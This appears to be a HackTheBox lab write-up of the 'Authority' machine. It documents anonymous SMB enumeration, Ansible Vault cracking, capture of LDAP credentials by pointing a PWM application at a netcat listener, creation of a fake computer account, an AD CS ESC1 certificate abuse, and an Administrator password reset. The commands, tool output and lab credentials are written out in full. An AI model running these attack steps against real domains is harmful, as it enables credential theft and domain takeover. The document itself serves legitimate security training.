






**Target:** AUTHORITY.authority.htb 
**IP:** 10.129.229.56 
**Domain:** authority.htb / htb.corp 
**OS:** Windows Server 2019 **Difficulty:** Medium 
**Platform:** HackTheBox 

## Executive Summary

Full domain compromise was achieved against the Authority Active Directory environment. The attack began with **anonymous SMB access** to a Development share containing Ansible playbooks with **Ansible Vault encrypted credentials**. The vault password was cracked offline using John the Ripper, revealing service account credentials. A **PWM password self-service application** running on Apache Tomcat (port 8443) was found in open configuration mode, which was abused to capture cleartext LDAP bind credentials by redirecting the LDAP URI to a netcat listener. With a valid domain user, a **fake computer account** was added to the domain and used to exploit **AD CS ESC1**  requesting a certificate as Administrator. Since PKINIT was unsupported, the certificate was used via an LDAP shell to reset the Administrator password, achieving full domain compromise.
## ## Enumeration

### Nmap Scan

```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Authority]
└─$ sudo nmap -sC 10.129.229.56 -p- -Pn -A -T4

Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-04 16:08 +0100
Nmap scan report for 10.129.229.56
Host is up (0.060s latency).
Not shown: 65507 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-04 19:10:43Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-05-04T19:11:56+00:00; +4h01m44s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-05-04T19:11:55+00:00; +4h01m43s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-05-04T19:11:56+00:00; +4h01m44s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-05-04T19:11:55+00:00; +4h01m43s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp  open  ssl/http      Apache Tomcat (language: en)
| tls-alpn: 
|_  h2
| ssl-cert: Subject: commonName=172.16.2.118
| Not valid before: 2026-05-02T19:06:53
|_Not valid after:  2028-05-04T06:45:17
|_ssl-date: TLS randomness does not represent time
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
53265/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.98%E=4%D=5/4%OT=53%CT=1%CU=39229%PV=Y%DS=2%DC=T%G=Y%TM=69F8B6D4
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=108%TI=I%CI=I%II=I%SS=S%TS=U
OS:)SEQ(SP=106%GCD=1%ISR=105%TI=I%CI=I%TS=U)SEQ(SP=107%GCD=1%ISR=108%TI=I%C
OS:I=I%TS=U)SEQ(SP=107%GCD=1%ISR=10F%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=108%GC
OS:D=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=U)OPS(O1=M542NW8NNS%O2=M542NW8NNS%O3=
OS:M542NW8%O4=M542NW8NNS%O5=M542NW8NNS%O6=M542NNS)WIN(W1=FFFF%W2=FFFF%W3=FF
OS:FF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M542NW8NNS%CC=Y%Q=
OS:)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W
OS:=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
OS:T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=
OS:164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: AUTHORITY; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h01m43s, deviation: 0s, median: 4h01m42s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-05-04T19:11:50
|_  start_date: N/A

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   45.97 ms 10.10.16.1
2   24.58 ms 10.129.229.56

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.13 seconds

```

#### Nmap Scan Summary


| Port    | Service    | Notes                                    |
| ------- | ---------- | ---------------------------------------- |
| 53      | DNS        | Simple DNS Plus                          |
| 80      | HTTP       | Microsoft IIS 10.0                       |
| 88      | Kerberos   | KDC                                      |
| 389/636 | LDAP/LDAPS | Active Directory — Domain: authority.htb |
| 445     | SMB        | Signing required                         |
| 5985    | WinRM      | HTTP — potential shell access            |
| 8443    | HTTPS      | Apache Tomcat — PWM application          |
| 9389    | mc-nmf     | .NET Message Framing                     |
> Update the clockskew and lets start checking by smb null session 

### SMB Enumeration

Anonymous (null session) listing revealed non-standard shares:

```bash
smbclient -L //authority.htb -N
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Department Shares Disk      
        Development     Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 

```

From the development share we got an credential
#### Development Share -  Ansible Playbooks
```Shell
\Automation\Ansible\
    ├── ADCS\
    ├── LDAP\
    ├── PWM\
    └── SHARE\
```

```bash
getting file \Automation\Ansible\pwm\ansible_inventory of size 174 as ansible_inventory (0.5 KiloBytes/sec) (average 1.2 KiloBytes/sec)
smb: \Automation\Ansible\pwm\> pwd
Current directory is \\10.129.229.56\Development\Automation\Ansible\pwm\
smb: \Automation\Ansible\pwm\> `
```

```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Authority]
└─$ cat ansible_inventory
ansible_user: administrator
ansible_password: Welcome1
ansible_port: 5985
ansible_connection: winrm
ansible_winrm_transport: ntlm
ansible_winrm_server_cert_validation: ignore[ble: EOF] 
```


 > found in `PWM\ansible_inventory`:
 - Username: `administrator`  Password: `Welcome1` 


```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Authority]
└─$ nxc winrm 10.129.229.56 -u administrator -p 'Welcome1'
WINRM       10.129.229.56   5985   AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.229.56   5985   AUTHORITY        [-] authority.htb\administrator:Welcome1
```

> The ansible_inventory credentials were tested but failed — typical for Ansible playbooks which often contain outdated default creds.

### Cracking Ansible Vault

However from the default file section we ca see an main.yaml which reveals three  vault-encrypted passwords
Vault hashes were extracted and cracked using John the Ripper:
```bash
ansible2john vault1.txt > vault1.hash john vault1.hash --wordlist=/usr/share/wordlists/rockyou.txt

┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Authority]
└─$ ansible-vault decrypt vault1.txt --vault-password-file <(echo '!@#$%^&*')

┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Authority]
└─$ cat vault1.txt
pWm_@dm!N_!23[ble: EOF]  
```

**Vault password cracked:** `!@#$%^&*`
Decrypted all vault values:

similiarly we can crack the password of  ldap_admin_password
```bash
ansible-vault decrypt main.yml --vault-password-file <(echo '!@#$%^&*')
```

`pwm_admin_password : pWm_@dm!N_!23`
`ldap_admin_password : DevT3st@123`

> These are Ansible variable names — not usernames. The actual service account is discovered later via PWM credential capture.

### PWM -  Password Self-Service (Port 8443)

- PWM running in **open configuration mode**  Configuration Manager accessible without authentication
- The authentication log exposed a service account: `CN=svc_pwm,CN=Users,DC=htb,DC=corp`






we can see an service account logging in  svc_pwn 

lets add these to username.txt and credential.txt file


```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Authority]
└─$ nxc smb 10.129.229.56 -u users.txt -p passwords.txt --continue-on-success
SMB         10.129.229.56   445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.229.56   445    AUTHORITY        [-] authority.htb\administrator:passwords.txt STATUS_LOGON_FAILURE
SMB         10.129.229.56   445    AUTHORITY        [+] authority.htb\svc_pwm:passwords.txt (Guest)
```

both the credentials works and tried to loging using the password 
### Credential Capture via LDAP Redirect:

we were able to logging the `configuration editor` file 
Since PWM was in config mode, the LDAP URI was changed to point to the attacker machine,

In the PWM Configuration Manager, the LDAP URL was changed to:

```
ldap://<IP>:389
```


Triggering a connection test sent the bind credentials in cleartext.

run an reverse listener using `netcat`
```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Authority]
└─$ nc -lvnp 389
listening on [any] 389 ...
connect to [10.10.16.99] from (UNKNOWN) [10.129.229.56] 63368
0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb�lDaP_1n_th3_cle4r!0P[ble: EOF]  
```

`svc_ldap :  lDaP_1n_th3_cle4r!`
## Foothold

we have access to both winrm and smb lets access winrm first 




## Foothold enumeration

From the intial enumeration these uses is low priveleged user lets try to escalate from here

```bash
*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

`BUILTIN\Certificate Service DCOM Access`  signals ADCS is in scope

```bash
*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> 
```

## Privilege Escalation  AD CS ESC1

### ADCS Enumeration

```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Authority]
└─$ certipy-ad find -u svc_ldap@authority.htb -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.129.229.56 -vulnerable -stdout

Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCa                        : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Enroll                          : AUTHORITY.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollmentCheckUserDsCertificate
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-03-24T23:48:09+00:00
    Template Last Modified              : 2023-03-24T23:48:11+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Full Control Principals         : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Property Enroll           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
    [+] User Enrollable Principals      : AUTHORITY.HTB\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.

```

`svc_ldap` is a regular user  not a computer account  so direct enrollment is denied. The workaround is creating a fake computer account, which automatically joins `Domain Computers`.


#### Adding a Fake Computer Account
Any authenticated domain user can add up to 10 machine accounts by default (controlled by `ms-DS-MachineAccountQuota`):
```bash

┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Authority]
└─$ impacket-addcomputer authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -dc-ip 10.129.229.56 -computer-name 'FAKEBOX$' -computer-pass 'Password123!'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account FAKEBOX$ with password Password123!.

```

#### Requesting Certificate as Administrator (ESC1)

Using the fake computer account to enroll and request a cert with the Administrator UPN:

```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Authority]
└─$ certipy-ad req -u 'FAKEBOX$@authority.htb' -p 'Password123!' -dc-ip 10.129.229.56 -ca AUTHORITY-CA -template CorpVPN -upn administrator@authority.htb
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 3
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'

```
#### Authenticating with the Certificate

Direct Kerberos authentication (PKINIT) failed:
```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Authority]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.229.56
```

Used the cert to open an LDAP shell: From te shell we can reset the administrator password

```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Authority]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.229.56 -ldap-shell
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@authority.htb'
[*] Connecting to 'ldaps://10.129.229.56:636'
[*] Authenticated to '10.129.229.56' as: 'u:HTB\\Administrator'
Type help for list of commands

# change_password administrator Password123@
Got User DN: CN=Administrator,CN=Users,DC=authority,DC=htb
Attempting to set new password of: Password123@
Password changed successfully!
# 
```


### Administrator Shell via WinRM

```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Authority]
└─$ evil-winrm -i 10.129.229.56 -u administrator -p 'Password123@'

```


```
[Anonymous SMB]
    └─> Development share readable without credentials
        └─> Ansible playbooks found with Vault-encrypted secrets

[Ansible Vault Cracking]
    └─> Vault password cracked: !@#$%^&*
        └─> ldap_admin_password: DevT3st@123
        └─> pwm_admin_password: pWm_@dm!N_!23

[PWM — Open Configuration Mode]
    └─> LDAP URI redirected to attacker netcat listener
        └─> Cleartext LDAP bind credentials captured
            └─> svc_ldap : lDaP_1n_th3_cle4r!

[WinRM Foothold]
    └─> evil-winrm as svc_ldap
        └─> Member of Certificate Service DCOM Access group

[Certipy — ESC1]
    └─> CorpVPN template: Enrollee supplies subject + Client Auth
        └─> Enrollment restricted to Domain Computers
            └─> Created fake computer account: FAKEBOX$
                └─> Requested cert with UPN: administrator@authority.htb
                    └─> administrator.pfx obtained

[PKINIT Unsupported — LDAP Shell Workaround]
    └─> certipy-ad auth -ldap-shell
        └─> change_password administrator
            └─> evil-winrm as Administrator
                └─> root.txt ✅
```

## Key Concepts & Techniques

- **Ansible Vault** - Encrypted secrets in playbooks, crackable with `ansible2john` + John the Ripper
- **PWM Open Config Mode** - Allows LDAP URI manipulation without authentication
- **LDAP Credential Capture** - Redirecting PWM LDAP URI to netcat captures cleartext bind credentials
- **MachineAccountQuota**  - Default AD setting allowing domain users to add up to 10 computer accounts
- **AD CS ESC1** - Vulnerable certificate template where enrollee supplies subject, allowing cert requests as any user
- **PKINIT not supported** - Fallback technique: use `certipy-ad auth -ldap-shell` to authenticate via LDAP instead of Kerberos TGT
- 